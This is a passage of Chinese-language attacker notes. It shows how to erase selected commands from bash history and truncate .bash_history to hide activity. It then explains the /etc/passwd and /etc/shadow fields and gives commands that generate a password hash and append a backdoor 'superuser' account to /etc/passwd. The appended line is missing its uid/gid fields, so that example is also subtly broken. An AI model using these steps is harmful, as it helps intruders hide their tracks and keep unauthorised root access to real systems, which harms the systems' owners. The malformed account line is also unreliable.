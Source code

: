 技巧二：从历史记录中删除指定的命令

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们怎么办？很简单。通过下面的命令来删除：

```
history | grep "keyword"


```

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
history -d \[num\]


```

删除大规模历史操作记录，这里，我们只保留前 150 行：

```
sed -i '150,$d' .bash\_history


```

#### 1.4 passwd 写入

```
/etc/passwd 各部分含义：
用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL
<!--ID: 1743494399059-->



```

```
/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用 


```

写入举例：

1\. 增加超级用户

```
$perl -le 'print crypt("momaek","salt")'
savbSWc4rx8NY

$echo "momaek:savbSWc4rx8NY:hacker:/root:/bin/bash" >> /etc/passwd


```

2\. 如果系统不允许 uid=0 的用户远程登录，可以增加一个普通用户账号
